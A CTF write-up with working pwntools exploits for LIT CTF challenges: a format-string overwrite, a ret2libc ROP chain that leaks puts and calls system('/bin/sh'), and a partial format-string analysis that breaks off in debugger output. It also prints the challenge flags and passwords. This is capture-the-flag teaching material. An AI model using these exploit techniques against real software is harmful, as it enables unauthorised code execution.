

# Flippen_Printf
`Author:`w0152  
`Description`  
I can't seem to pull of a bit flip. Can you?  

```bash
󰣇 lit_ctf/pwn/flippen_printf ❯ file uc                                                                                    
uc: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7049e959cebc100a110b399bc69e61f4370efc6c, for GNU/Linux 3.2.0, not stripped
```
```bash
pwnchecksec uc                                                                                                 
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```
We can see that this Elf is full relro but has no canary enabled.

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int win() {
	system("/bin/sh");
}

int main() {
	setbuf(stdout, 0);
	setbuf(stderr, 0);
	char buf[256];
	long x = 0;
	printf("Buffer located at: %p\n", buf);
	buf[read(0, buf, 256) - 1] = 0;
	printf(buf);
	if (x) win();
	exit(0);
}

```
From the Source code , there is a win function that is called only when the x is != 0.
When looking at the code we can see that there is format string vulnerability here.
```c
 	buf[read(0, buf, 256) - 1] = 0;
	printf(buf);
```
## Finding offset
```bash
󰣇 lit_ctf/pwn/flippen_printf ❯ ./uc                                                                                                     
Buffer located at: 0x7fffc1674160
AAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAAAAAAA0x7fffc16741600x2c(nil)(nil)(nil)0x10(nil)0x41414141414141410x25702570257025410x25702570257025700x25702570257025700x25702570257025700x7707007025700x218c0329000000020x100x400x1200000
```
We can see that the Letters are Repeated at 8th Offset , so we can confirm that where out printf input buffer starts.

## Finding address of x
```asm wrap=false showLineNumbers=false
   0x555555555229 <main+70>     mov    qword ptr [rbp - 0x118], 0     [0x7fffffffd528] <= 0
   0x555555555234 <main+81>     lea    rax, [rbp - 0x110]             RAX => 0x7fffffffd530 ◂— 1
 ► 0x55555555523b <main+88>     mov    rsi, rax                       RSI => 0x7fffffffd530 ◂— 1
   0x55555555523e <main+91>     lea    rax, [rip + 0xdc7]             RAX => 0x55555555600c ◂— 'Buffer located at: %p\n'
   0x555555555245 <main+98>     mov    rdi, rax                       RDI => 0x55555555600c ◂— 'Buffer located at: %p\n'
   0x555555555248 <main+101>    mov    eax, 0                         EAX => 0
   0x55555555524d <main+106>    call   printf@plt                  <printf@plt>
```
At main+70 , we can see that value 0 is moving to $rbp-0x118 , which is the variable x.
Since the program is good enough to leak the buffer address , so we can calculate x stack address with it, where x = buf - 8.

## Exploit
```py
from pwn import *
context.binary = elf = ELF('uc')

#p = process()
p = remote('litctf.org', 31785)

p.recvuntil(b'Buffer located at: ')
buf_addr = int(p.recvline(),16)

x_addr = buf_addr - 8
payload = fmtstr_payload(8, {x_addr: 1})

p.sendline(payload)
p.interactive()
```
```bash
 python ../flippen_printf/solve.py           
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to litctf.org on port 31785: Done
[*] Switching to interactive mode
ca\x98\xcb\xde\x16\xfe\x7f$ l
$ s
$ cat flag.txt
/bin/sh: 1: l: not found
/bin/sh: 2: s: not found
LITCTF{why_d03s_%n_3x1s7_Lm4o}
$  
```
Flag : `LITCTF{why_d03s_%n_3x1s7_Lm4o}`

# l1t\x00n3wsAAAAAAApp\n
`Description`  
Can you find an unreleased news story on the LIT Newsapp?
Note: This shares the same file as the LIT Newsapp rev challenge. The two challenges have different flags.

```bash
󰣇 lit_ctf/pwn/2ndlit ❯ file uc                                                                                                                                 
uc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6eeae81c4c16c71016051b5be540958892bd4f06, for GNU/Linux 3.2.0, not stripped
```
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ pwnchecksec uc                                                                                                                         
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
We can see that , The given Elf is dynamically linked and has no canary and pie with partial Relno , which makes things easy for it.

## Code Review

```c

undefined8 main(void)

{
  int iVar1;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined8 uStack_50;
  undefined local_48 [31];
  undefined auStack_29 [33];
  
  uStack_50 = 0x4011fe;
  puts("Enter username:");
  uStack_50 = 0x401214;
  sVar2 = read(0,auStack_29 + 1,0x60);
  auStack_29[sVar2] = 0;
  uStack_50 = 0x401229;
  puts("Enter password:");
  uStack_50 = 0x40123f;
  sVar2 = read(0,local_48,0x60);
  local_48[sVar2 + -1] = 0;
  uStack_50 = 0x40125b;
  iVar1 = check(auStack_29 + 1,local_48);
  if (iVar1 == 0) {
    uStack_50 = 0x4012ae;
    puts("Invalid credentials");
    uStack_50 = 0x4012b8;
    uVar3 = FUN_004010a0(0);
  }
  else {
    uStack_50 = 0x40126b;
    puts("Welcome");
    uStack_50 = 0x401277;
    puts("---------------------------------------------------------");
    uStack_50 = 0x401283;
    puts("Today\'s news: Lexington High School starts their 5th CTF!");
    uStack_50 = 0x40128f;
    puts("---------------------------------------------------------");
    uStack_50 = 0x40129b;
    puts("Goodbye");
    uVar3 = 0;
  }
  return uVar3;
}

```
This is the main function where the program , asks the user to prompt username and password.  
If the username and password matches , the program has the heart to welcome and notify that this is the 5th LIT CTF and the program ends with a goodbye, which we don't like after noticing a buffer overflow in both the username and password.

## Find username and password
```c

undefined8 check(char *param_1,char *param_2)

{
  int iVar1;
  
  iVar1 = strcmp(param_1,"LITCTF");
  if ((iVar1 == 0) && (iVar1 = strcmp(param_2,"d0nt_57r1ngs_m3_3b775884"), iVar1 == 0)) {
    return 1;
  }
  return 0;
}

```
We can find the username and password is in check function , where our given username and password is being campared with `strcmp` function and returns 1 if it is correct username and password else it returns 0 for false.

## Plan
Since, we can see that there is a buffer overflow , I thought of doing Ret2Libc , but they are a bit stringy in it, as there is no libc provided. Then I thought this simple plan,  
1. Overflow the stack.    
2. Leak the libc with puts got.  
3. Then again call the main to call the system from Libc.

But wait just spamming the buffer does not overflow the stack instead it prints invalid credentials.
```bash 
󰣇 lit_ctf/pwn/2ndlit ❯ ./uc                                                                                                                                
Enter username:
LITCTF
Enter password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Invalid credentials
```
Why? Because of the `check` function, which checks our username and password , since here the password is not match with the one in program , it prints invalid credentials and exits the program.
```c

void FUN_004010a0(int param_1)

{
                    /* WARNING: Subroutine does not return */
  exit(param_1);
}

```
## First stage: overflow
Since strcmp only compares the strings until it has null byte is reached. so, we use it to write to be precise overflow beyound buffer while bypassing the check function of username and password. while still causing the segfault.
```py
p.recvuntil(b'Enter username:')
p.sendline(b'LITCTF')
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(200))
```
This is my initial Python script to cause segmentation and by running this , I got a seg fault. Which is a Good thing.
```bash
 python sol.py                               
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc': pid 125836
[*] Switching to interactive mode

Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
[*] Got EOF while reading in interactive
$ ls
[*] Process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc' stopped with exit code -11 (SIGSEGV) (pid 125836)
[*] Got EOF while sending in interactive

```

## Stage 2: Libc Leak
Since we got a way to control ret address , I moved to the next part of the plan , which is to leak libc adress.
From ROPgadget , there is lucky enough to have have a `pop rdi` gadget in it , which makes our libc leak easy as we can send puts@got address to the puts to leak the libc address.
 
```py
pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
    payload = flat (
    cyclic(32),
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['main']
)
    return payload

payload = leak_value()

p.recvuntil(b'Enter username:')
p.sendline(b'LITCTF')
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+payload)
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))
```
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py                                
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc': pid 27958
0x7275c68375c0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ whyyy
[*] Process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc' stopped with exit code -11 (SIGSEGV) (pid 27958)
[*] Got EOF while sending in interactive
```
Yes, We successfully managed to leak the libc address of the puts, but wait why it didn't read to main again.
then after some time looking at the code , i found that read takes 96 bytes , but we are sending 104 bytes , which makes our last tail 8 bytes truncats and does not return to the main.

Then again after stumbling some time , I discovered that by making a 64 bytes overflow in the in the username buffer , the puts after leaking our sweet libc returns to that memory location.   
```py
def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()

main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'
print(len(password))
p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(16) + main_addr + cyclic(9) + payload )
```
```asm wrap=false showLineNumbers=false

Program received signal SIGSEGV, Segmentation fault.
0x00007c45e45f1e9a in __GI__IO_puts (str=<optimized out>) at ioputs.c:46
46	in ioputs.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────
 RAX  7
 RBX  0
 RCX  0x7c45e47587b0 (_IO_stdfile_1_lock) ◂— 0
 RDX  0x7c45e47587b0 (_IO_stdfile_1_lock) ◂— 0
 RDI  0
 RSI  0x1d84e2a0 ◂— 0xa0a7c45e45f1da0
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0x7ffe6018dc98 —▸ 0x7ffe6018fc4a ◂— '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
 R13  1
 R14  0x7c45e47cc000 (_rtld_global) —▸ 0x7c45e47cd310 ◂— 0
 R15  0
 RBP  0x6961616168616161 ('aaahaaai')
 RSP  0x7ffe6018db90 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaa'
 RIP  0x7c45e45f1e9a (puts+250) ◂— ret 
───────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────
   0x7c45e45f1e92 <puts+242>    pop    rbx
   0x7c45e45f1e93 <puts+243>    pop    r12
   0x7c45e45f1e95 <puts+245>    pop    r13
   0x7c45e45f1e97 <puts+247>    pop    r14
   0x7c45e45f1e99 <puts+249>    pop    rbp
 ► 0x7c45e45f1e9a <puts+250>    ret                                <0x6161617261616171>
    ↓


────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffe6018db90 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaa'
01:0008│     0x7ffe6018db98 ◂— 'saaataaauaaavaaawaaaxaa'
02:0010│     0x7ffe6018dba0 ◂— 'uaaavaaawaaaxaa'
03:0018│     0x7ffe6018dba8 ◂— 0x61617861616177 /* 'waaaxaa' */
04:0020│     0x7ffe6018dbb0 —▸ 0x7ffe6018dc98 —▸ 0x7ffe6018fc4a ◂— '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
05:0028│     0x7ffe6018dbb8 ◂— 1
06:0030│     0x7ffe6018dbc0 —▸ 0x7c45e47cc000 (_rtld_global) —▸ 0x7c45e47cd310 ◂— 0
07:0038│     0x7ffe6018dbc8 ◂— 0
──────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────
 ► 0   0x7c45e45f1e9a puts+250
   1 0x6161617261616171 None
   2 0x6161617461616173 None
   3 0x6161617661616175 None
   4 0x61617861616177 None
   5   0x7ffe6018dc98 None
   6              0x1 None
   7   0x7c45e47cc000 _rtld_global
```
Then after placing the main address at offset 64, we can see that after puts the program again enter into the main function.

## finding libc version
Since we managed to leak libc locally, lets leak it in remote and find the libc version to get same libc as in remote.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py REMOTE                           3.13.3  19:11 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to litctf.org on port 31779: Done
0x7631eb33ebe0
[*] Switching to interactive mode
Enter username:
Enter password:
$  
```
Like by leaking the value from read got table (read@got), we can leak the libc address of read.
So with the help of [libc.rip](https://libc.rip) , we can find the correct libc version. After giving out libc address the numb of offset trim down to two, where one libc is the next version one libc. so both both libc may work here.



After finding the correct libc version , we need into patch the binary to use that spectific libc version.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ pwninit                                                                                                                            
bin: ./uc
libc: ./libc6_2.39-0ubuntu8.4_amd64.so

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.39-0ubuntu8.4_amd64.deb
setting ./ld-2.39.so executable
symlinking ./libc.so.6 -> libc6_2.39-0ubuntu8.4_amd64.so
copying ./uc to ./uc_patched
running patchelf on ./uc_patched
```

## Last stage
since we got our hands on a correct libc file and can leak the libc address at run time and come back again to main function , now we can get start to make a call to system by seting rdi to `/bin/sh` address.

```py

pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()


main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'


p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(33)+ payload )
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))

print('puts lib addr',hex(libc.sym.puts))

libc.address = leaked_puts - libc.sym.puts
print(hex(libc.address))

system_addr = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))

def shellcode():
    payload = flat (
    pop_rdi,
    binsh,
    system_addr
    )
    return payload

shellcode = shellcode()
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+shellcode)
print(len(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+shellcode))
```

```asm wrap=false showLineNumbers=false

Program received signal SIGSEGV, Segmentation fault.
Download failed: Invalid argument.  Continuing without source file ./stdlib/../sysdeps/posix/system.c.
0x00007ee8ba45843b in do_system (line=0x7ee8ba5cb42f "/bin/sh") at ../sysdeps/posix/system.c:148
warning: 148	../sysdeps/posix/system.c: No such file or directory
Download failed: Invalid argument.  Continuing without source file ./stdlib/../sysdeps/posix/system.c.
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────
*RAX  0x7ee8ba60ad58 (environ) —▸ 0x7fff23b28838 —▸ 0x7fff23b29c6e ◂— 'HYDE_DATA_HOME=/home/hyder/.local/share/hyde'
*RBX  0x7fff23b285b8 ◂— 0xc /* '\x0c' */
*RCX  0x7fff23b285b8 ◂— 0xc /* '\x0c' */
 RDX  0
*RDI  0x7fff23b283a4 ◂— 0xba526b5400007ee8
*RSI  0x7ee8ba5cb42f ◂— 0x68732f6e69622f /* '/bin/sh' */
*R8   0x7fff23b283e8 ◂— 0
*R9   0x7fff23b28838 —▸ 0x7fff23b29c6e ◂— 'HYDE_DATA_HOME=/home/hyder/.local/share/hyde'
*R10  8
*R11  0x246
*R12  0x7ee8ba5cb42f ◂— 0x68732f6e69622f /* '/bin/sh' */
 R13  0
 R14  0
 R15  0x7ee8ba7ab000 (_rtld_global) —▸ 0x7ee8ba7ac2e0 ◂— 0
*RBP  0x7fff23b28418 ◂— 0
*RSP  0x7fff23b28398 —▸ 0x7ee8ba76bd20 —▸ 0x7ee8ba773c01 ◂— 'GLIBC_2.35'
*RIP  0x7ee8ba45843b (do_system+363) ◂— movaps xmmword ptr [rsp + 0x50], xmm0
────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────
 ► 0x7ee8ba45843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fff23b283e8] not aligned to 16 bytes>
   0x7ee8ba458440 <do_system+368>    call   posix_spawn@@GLIBC_2.15     <posix_spawn@@GLIBC_2.15>
 
   0x7ee8ba458445 <do_system+373>    mov    rdi, rbx
   0x7ee8ba458448 <do_system+376>    mov    r12d, eax
   0x7ee8ba45844b <do_system+379>    call   posix_spawnattr_destroy     <posix_spawnattr_destroy>
 
   0x7ee8ba458450 <do_system+384>    test   r12d, r12d
   0x7ee8ba458453 <do_system+387>    je     do_system+632               <do_system+632>
 
   0x7ee8ba458459 <do_system+393>    mov    dword ptr [rsp + 8], 0x7f00
   0x7ee8ba458461 <do_system+401>    xor    eax, eax                                  EAX => 0
   0x7ee8ba458463 <do_system+403>    mov    edx, 1                                    EDX => 1
   0x7ee8ba458468 <do_system+408>    lock cmpxchg dword ptr [rip + 0x1ad070], edx
──────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────
00:0000│ rsp   0x7fff23b28398 —▸ 0x7ee8ba76bd20 —▸ 0x7ee8ba773c01 ◂— 'GLIBC_2.35'
01:0008│ rdi-4 0x7fff23b283a0 ◂— 0x7ee8ffffffff
02:0010│-070   0x7fff23b283a8 —▸ 0x7ee8ba526b54 (sbrk+164) ◂— test eax, eax
03:0018│-068   0x7fff23b283b0 —▸ 0x7fff23b283e0 —▸ 0x2111d2a0 ◂— 'Goodbye\n-------------------------------------------------\n'
04:0020│-060   0x7fff23b283b8 ◂— 0x290
05:0028│-058   0x7fff23b283c0 —▸ 0x7ee8ba603ac0 (main_arena) ◂— 0
06:0030│-050   0x7fff23b283c8 ◂— 0x280
07:0038│-048   0x7fff23b283d0 —▸ 0x7fff23b283e0 —▸ 0x2111d2a0 ◂— 'Goodbye\n-------------------------------------------------\n'
────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────
 ► 0   0x7ee8ba45843b do_system+363
   1              0x1 None
   2              0x0 None
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
But running this , we could not get the shell. since the stack is not alliged. so, after some thinking and some advise, I tried to calling main one time before calling before sending the payload to call the system.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py                                                                                                                             3.13.3  20:20 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/libc6_2.39-0ubuntu8.4_amd64.so'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched': pid 151910
0x7a588a287be0
puts lib addr 0x87be0
0x7a588a200000
121
[*] Switching to interactive mode

Enter password:
Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
$ id
uid=1000(hyder) gid=984(users) groups=984(users),150(wireshark),986(uucp),996(audio),998(wheel),1001(usb)
$  
```
yea , got the shell 😃.


## Exploit  
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./uc_patched")
libc = ELF('libc6_2.39-0ubuntu8.4_amd64.so')
context.binary = elf
context.terminal = ['kitty','-e']

gdbscript = '''
b*main
b*0x00000000004012b9
c
'''

if args.REMOTE:
    p = remote('litctf.org',31779)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)

pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()


main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'


p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(33)+ payload )
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))

print('puts lib addr',hex(libc.sym.puts))

libc.address = leaked_puts - libc.sym.puts
print(hex(libc.address))

system_addr = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))

def shellcode():
    payload = flat (
    pop_rdi,
    binsh,
    system_addr
    )
    return payload


shellcode = shellcode()
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+main_addr)

main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'
print(len(password))
p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(16) + main_addr + cyclic(9) + shellcode )

p.interactive()
```
In remote,
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py REMOTE                                                                                                                      3.13.3  20:22 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/libc6_2.39-0ubuntu8.4_amd64.so'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to litctf.org on port 31779: Done
0x7f126e9b9be0
puts lib addr 0x87be0
0x7f126e932000
121
[*] Switching to interactive mode

Enter password:
Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
$ ls
$ cat flag.txt
flag.txt
main
run.sh
LITCTF{s3cret_LIT_n3w5:_4ll_r3v_1s_pwn???}
$  
```
Flag: `LITCTF{s3cret_LIT_n3w5:_4ll_r3v_1s_pwn???}`

# distilled printf

`Description`  
I use fahrenheit
`Note:` This is a challenge that I is solved after CTF ended.

```bash
󰣇 lit_ctf/pwn/distilled_printf_maon ❯ file main_patched                                                                                                        
main_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.24.so, BuildID[sha1]=c882c084a865854a8d4381a79e148f76939fe895, for GNU/Linux 3.2.0, not stripped
```
```bash
󰣇 lit_ctf/pwn/distilled_printf_maon ❯ pwnchecksec main_patched                                                                                                
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/distilled_printf_maon/main_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
```
## code review
```c

void main(void)

{
  long in_FS_OFFSET;
  int local_21c;
  char local_218 [520];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  for (local_21c = 32; local_21c < 212; local_21c = local_21c + 1) {
    fgets(local_218,512,stdin);
    printf(local_218);
  }
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

```
When i looked at the challenge name , I can preety much assume that this is also one of the challenge that has format_string , as we see that vulnerable printf function in the code.  
Then this program loops 180 times and get the input from stdin and prints , so each run we get format string bug.

## leak for libc
```asm wrap=false showLineNumbers=false
pwndbg> r
Starting program: /home/hyder/CTF_FILES/lit_ctf/pwn/distilled_printf_maon/main_patched 
%p %p
0x7ffff7bc3770 0x7fffffffd430

pwndbg> vmmap 0x7ffff7bc3770
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
    0x7ffff7bc1000     0x7ffff7bc3000 rw-p     2000 1c1000 libc-2.24.so
►   0x7ffff7bc3000     0x7ffff7bc7000 rw-p     4000      0 [anon_7ffff7bc3] +0x770
    0x7ffff7c00000     0x7ffff7c25000 r-xp    25000      0 ld-2.24.so


pwndbg> p/x 0x7ffff7bc3770-0x7ffff7800000
$2 = 0x3c3770
pwndbg> vmmap 0x7ffff7bc3770-0x3c3770
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
    0x55555555b000     0x55555557c000 rw-p    21000      0 [heap]
►   0x7ffff7800000     0x7ffff79bd000 r-xp   1bd000      0 libc-2.24.so +0x0
    0x7ffff79bd000     0x7ffff7bbd000 ---p   200000 1bd000 libc-2.24.so
pwndbg> 

```
From the first leak , we get some anonymous memory address which is 0x0x3c3770 away from libc base. so,
`libc_base = leak -  0x0x3c3770`
From the second leak we get some stack address leak, which we may use it later.

Eventhough, we get the base address the program does not return but instead it exits directly, eventhough there is bufferoverflow due to exit it , it wont work here.
Then again after search through the memory with gdb and with the help of GPT , I found that when printf is called it returns to the main function again , If there we can overwrite the return address with our arbitary memory , we can control that return address and control the program execution.
```asm wrap=false showLineNumbers=false
Breakpoint 2, 0x00007ffff78565b0 in __printf (format=<optimized out>) at printf.c:37
37	in printf.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────────
*RAX  3
 RBX  0
*RCX  0x7ffff78f7cf0 (__write_nocancel+7) ◂— cmp rax, -0xfff
*RDX  0x7ffff7bc3760 (_IO_stdfile_1_lock) ◂— 0
*RDI  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
*RSI  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
*R8   0x7ffff7ff4700 ◂— 0x7ffff7ff4700
*R9   3
*R10  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
 R11  0x246
 R12  0x5555555550a0 (_start) ◂— endbr64 
 R13  0x7fffffffd720 ◂— 1
 R14  0
 R15  0
 RBP  0x7fffffffd640 —▸ 0x555555555200 (__libc_csu_init) ◂— endbr64 
 RSP  0x7fffffffd418 —▸ 0x5555555551e2 (main+89) ◂— add dword ptr [rbp - 0x214], 1
*RIP  0x7ffff78565b0 (printf+160) ◂— ret 
